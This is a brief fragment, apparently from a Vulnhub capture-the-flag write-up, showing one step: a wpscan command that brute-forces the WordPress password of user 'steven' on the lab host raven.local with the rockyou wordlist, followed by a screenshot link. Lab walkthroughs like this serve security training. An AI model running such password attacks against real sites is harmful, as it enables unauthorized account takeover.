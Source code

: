 test
Cracking user steven with wpscan tools
#Command : wpscan --url raven.local -usernames steven -passwords /usr/share/wordlists/rockyou.txt

<img width="708" alt="image" src="https://github.com/psfauzi/Vulnhub_Like_OSCP/assets/49013900/5ee84fd3-b7e9-4677-81bf-120888c9125d">
